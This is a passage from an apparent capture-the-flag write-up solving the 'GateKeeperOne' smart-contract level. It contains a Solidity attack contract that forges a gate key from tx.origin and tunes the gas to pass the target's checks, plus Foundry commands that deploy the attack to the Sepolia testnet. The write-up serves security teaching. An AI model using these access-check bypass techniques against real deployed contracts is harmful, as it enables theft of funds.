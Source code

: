 We can run the test with the following command:

```bash
forge test -vvvv --fork-url sepolia --match-path test/13_GateKeeperOne.test.sol
```

And we get the following amount: `256`.

## Solution

We now have everything we need to write our contract and call the `enter()` function.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract GateSkipperOne {
    address private gateKeeper;

    constructor(address _gateKeeper) {
        gateKeeper = _gateKeeper;
    }

    function attack(uint256 gas) external {
        bytes8 key = _constructGateKey();

        (bool success, ) = gateKeeper.call{gas: 8191 * 20 + gas}( // gas == 256
            abi.encodeWithSignature("enter(bytes8)", key)
        );
        require(success, "Attack failed");
    }

    function _constructGateKey() private view returns (bytes8 gateKey) {
        uint16 ls16BitsTxOrigin = uint16(uint160(tx.origin));
        gateKey = bytes8(
            uint64(uint64(0x0001000000000000) | uint64(ls16BitsTxOrigin))
        );
        return gateKey;
    }
}
```

Run the script with the following command:

```bash
forge script script/13_GateKeeperOne.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- How data type conversion and casting work in Solidity
- Bitwise operators
- Why `gasleft()` can't be used as a source of randomness

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
